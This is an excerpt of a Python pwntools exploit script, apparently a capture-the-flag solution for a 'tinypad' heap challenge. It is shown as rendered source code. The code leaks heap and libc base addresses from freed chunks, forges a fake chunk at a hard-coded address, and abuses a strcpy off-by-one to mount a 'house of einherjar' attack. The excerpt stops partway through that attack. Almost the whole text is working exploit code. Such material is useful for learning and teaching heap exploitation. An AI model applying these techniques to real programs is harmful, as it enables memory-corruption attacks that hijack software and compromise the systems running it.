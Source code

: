 ```python
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
```